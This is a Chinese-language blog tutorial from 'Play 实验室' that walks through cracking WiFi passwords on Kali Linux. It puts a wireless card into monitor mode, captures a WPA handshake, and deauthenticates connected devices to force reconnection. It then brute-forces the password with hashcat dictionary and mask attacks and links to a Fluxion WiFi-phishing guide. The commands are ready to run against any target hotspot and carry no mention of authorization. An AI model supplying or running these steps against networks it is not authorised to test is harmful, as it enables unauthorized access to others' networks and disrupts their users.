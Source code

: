 Kali Linux 使用 Hashcat 高效破解 WiFi 密码【暴力破解篇】

#### 1\. 前言

> [Hashcat](https://github.com/hashcat/hashcat) 是世界上最快、最先进的密码恢复应用程序，支持 300 多种高度优化的哈希算法的五种独特的攻击模式。Hashcat 目前支持 Linux、Windows 和 macOS 上的 CPU、GPU 和其他硬件加速器，并具有帮助实现分布式密码破解的功能。

#### 2\. 准备工作

*   Kali 免驱无线网卡

*   Kali 虚拟机或实体机


> Kali 免驱网卡可以直接在网上购买，注意问清楚商家 Kali 系统是否免驱，是否支持监听和注入功能，能不能使用 airmon-ng 抓包。

Kali Linux下载地址：[https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)

![](kali-linux.jpg)

#### 3\. 扫描目标 WiFi

> 首先将无线网卡插到电脑上，如果使用的是虚拟机的话，注意将无线网卡连接到虚拟机。

切换到 root 用户

    sudo -i

开启监听模式

    airmon-ng check
    airmon-ng check kill  // 关闭影响监听状态的进程
    airmon-ng start wlan0 

扫描附近的 WIFI（wlan0 也有可能是 wlan0mon，可以使用 `airmon-ng` 命令查看 Interface 名称）

    airodump-ng wlan0

如果出现 `Device or Resource is Busy` 的错误，并且执行 `airmon-ng` 命令查看 `PHY` 显示为 null，那么可以参考 [这个教程](https://playlab.eu.org/archives/kali-monitor) 更新无线网卡驱动解决

![](hashcat_01.jpg)

#### 4\. 抓取握手包

修改并执行以下的命令，以扫描到的“Play\_Lab”热点为例：

    airodump-ng -c 1 --bssid 1E:FE:E7:D4:F7:1C -w /home/kali/Desktop/play_lab  wlan0

`-c` WiFi 的 CH

`--bssid` WiFi 的 BSSID

`-w` 握手文件存放路径和名称

当有设备连接到这个 WiFi 的时候我们就可以抓取到握手包了，但是这种“守株待兔”的方式通常是比较浪费时间的，所以我们需要发起“主动攻击”。

> 原理是通过发送大量的握手请求把其他设备踢下线，一般情况下线的设备都会自动重连 WiFi，这个时候就可以抓取到握手包了。

打开一个新的终端窗口，修改并执行以下命令：

    aireplay-ng -0 2 -a 1E:FE:E7:D4:F7:1C -c 36:9E:86:3F:BD:8A wlan0

`-a` WiFi 的 BSSID

`-c` 已连接设备的 MAC 地址

![](hashcat_02.jpg)

当右上角出现"WPA handshake"握手包就抓取成功了

![](hashcat_03.jpg)

#### 5.1 字典暴力破解

> 由于 Hashcat 需要使用 GPU 才能高效破解密码，所以需要确保你的 Kali Linux 可以正常驱动显卡，或者直接在 Windows 电脑上下载 [Hashcat](https://github.com/hashcat/hashcat/releases) 执行操作也是可以的。

首先需要通过 [Hashcat](https://hashcat.net/cap2hashcat/index.pl) 网站将 cap 文件转换为 hc22000 格式，然后修改并执行下面的命令：

    hashcat -m 22000 xxx.hc22000 password.txt

`xxx` hc22000 文件名称

`password` 密码字典名称

密码字典可以通过 Google 或者 GitHub 搜索下载，推荐两个 GitHub 的字典：

[https://github.com/conwnet/wpa-dictionary](https://github.com/conwnet/wpa-dictionary)

[https://github.com/IYATT-yx/WiFi-Password-Dictionary](https://github.com/IYATT-yx/WiFi-Password-Dictionary)

> 字典模式的暴力破解成功率和字典的大小有直接关系，但是再大的字典，如果字典中没有这个 WiFi 的密码，那么最终还是无法破解，而且耗费的时间也会更久 XD。

#### 5.2 掩码暴力破解

除了使用字典暴力破解，我们还可以使用掩码暴力破解

例如我们知道 WiFi 密码是 8 位纯数字：

    hashcat -a 3 -m 22000 xxx.hc22000 ?d?d?d?d?d?d?d?d

或者 8-9 位小写字母开头+数字的组合：

    hashcat -a 3 -m 22000 xxx.hc22000 --increment --increment-min 8 --increment-max 9 ?l?d?d?d?d?d?d?d?d

我们还可以使用 `--session` 参数存储会话，程序中断之后可以继续执行

    hashcat -a 3 -m 22000 xxx.hc22000 --session sss --increment --increment-min 8 --increment-max 9 ?h?h?h?h?h?h?h?h?h

恢复会话，从上次的断点继续执行

    hashcat --session sss --restore

`sss` 存储的会话名称

破解完成后程序会自动停止运行，并且显示 WiFi 密码

![](hashcat_04.jpg)

#### 6\. 掩码字符说明：

`l` ：abcdefghijklmnopqrstuvwxyz \[a-z\]

`u` ：ABCDEFGHIJKLMNOPQRSTUVWXYZ \[A-Z\]

`d` ：0123456789 \[0-9\]

`h` ：0123456789abcdef \[0-9 a-f\]

`H` ：0123456789ABCDEF \[0-9 A-F\]

`s` ：!"#$%&'()\*+,-./:;<=>?@\[\\\]^\_\`{|}~

`a` ：?l?u?d?s

`b` ：0x00 - 0xff

#### 7\. Hashcat 相关参数说明

下面列出了常用参数的说明，全部参数的说明可以使用 `hashcat --help` 命令查看

`-a` 指定要使用的破解模式（0 字典攻击，1 组合攻击，3 掩码攻击）

`-m` 指定要破解的 Hash 类型（默认 MD5）

`-o` 指定成功破解的 Hash 和明文密码的存放位置

`--session` 存储当前会话

`--increment` 启用增量破解模式

`--increment-min` 密码最小长度（配合 --increment 参数使用）

`--increment-max` 密码最大长度（配合 --increment 参数使用）

`--force` 忽略警告信息

`--show` 显示成功破解的 Hash 和明文密码

#### 8\. 总结

通过 Hashcat 理论上可以破解任意组合的密码，拿到握手包后可以随时随地进行离线破解，破解难度也只是时间的问题，同时破解的速度和显卡的性能有很大的关系。

如果电脑的显卡性能不是很好的话，那么推荐使用 Fluxion 进行 WiFi 钓鱼，详细操作请查看：

[Kali Linux 使用 Fluxion 破解 WiFi 密码【WiFi 钓鱼篇】](https://playlab.eu.org/archives/fluxion)

文章作者： Play 实验室

本文链接： [https://playlab.eu.org/archives/hashcat](/archives/hashcat)

版权声明： 本站所有文章除特别声明外，均采用 [CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/) 许可协议。转载请注明来自 [Play 实验室](/)！
